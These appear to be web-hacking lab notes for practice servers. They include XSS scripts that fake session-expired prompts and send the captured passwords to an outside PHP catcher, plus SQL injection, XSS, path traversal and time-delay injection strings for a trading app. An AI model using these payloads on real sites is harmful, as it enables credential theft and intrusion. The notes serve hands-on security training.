 <script>
password=prompt('Your session is expired. Please enter your password to continue',' '); 
document.write("<img src=\"http://54.172.112.249/xss_practice/passwordgrabber.php?password=" +password+"\">");
</script>


Now view the stolen cookie at:
	http://54.172.112.249/xss_practice/passwords.html



Option 2
--------
<script>
username=prompt('Please enter your username',' ');
password=prompt('Please enter your password',' ');
document.write("<img src=\"http://54.172.112.249/xss_practice/unpw_catcher.php?username="+username+"&password="+password+"\">");
</script>




Now view the stolen cookie at:
http://54.172.112.249/xss_practice/username_password_logs.html




#########################################
# Let's kick it up a notch with ASP.NET #
# http://54.200.178.220/                #
#########################################


The trading Web App is on http://54.200.178.220/


Try the following in the search box:
	<script>alert(123);</script>
	' or 1=1
	' and a=a
	1=1
	Joe'+OR+1=1;--


	<script>alert(123);</script>
	
Open a new tab in firefox and try this:
	http://54.200.178.220/Searchresult.aspx?<script>alert(123);</script>=ScriptName


Try the contact us form.
Open a new tab in firefox and try this:
	http://54.200.178.220/OpenPage.aspx?filename=../../../../../../windows/win.ini

Try this on the inquiry form:
	Joe McCray
	1234567890
	joe@strategicsec.com') waitfor delay '00:00:10'--
